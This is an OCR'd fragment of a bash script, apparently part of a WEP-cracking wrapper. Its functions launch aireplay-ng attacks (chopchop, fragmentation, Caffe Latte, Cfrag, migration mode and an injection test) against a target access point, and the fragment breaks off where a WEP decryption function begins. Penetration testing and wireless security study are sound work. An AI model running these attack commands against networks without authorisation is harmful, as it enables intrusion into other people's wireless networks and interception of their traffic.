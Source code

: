 arAttackChopChop(){

	currentTask="arAttackChopChop"

	#$terminal aireplay-ng -4 -a $bssid -h $macAddressMonitor $interfaceMonitor &
	$terminal aireplay-ng -4 -h $macAddressMonitor -b $bssid $interfaceMonitor &
	
	# Unauthenticated Method
	#$terminal aireplay-ng -4 -b $bssid $interfaceMonitor &

}


arAttackFragment(){

	currentTask="arAttackFragment"

	$terminal aireplay-ng -5 -e $essid -b $bssid -h $macAddressMonitor $interfaceMonitor &

}


arAttackCaffeLatte(){

	currentTask="arAttackCaffeLatte"

	$terminal aireplay-ng -6 -e $essid -b $bssid -h $macAddressMonitor $interfaceMonitor &

}


arAttackCfrag(){

	currentTask="arAttackCfrag"

	$terminal aireplay-ng -7 -e $essid -b $bssid -h $macAddressMonitor $interfaceMonitor &

}


arAttackMigMode(){

	currentTask="arAttackMigMode"

	$terminal aireplay-ng -8 -e $essid -b $bssid -h $macAddressMonitor $interfaceMonitor &

}


arAttackTest(){

	currentTask="arAttackTest"

	$terminal aireplay-ng -9 -e $essid -a $bssid -h $macAddressMonitor $interfaceMonitor &

}

aircrackDecryptWEP(){

	currentTask="aircrackDecryptWEP"

	banner
	bannerStats
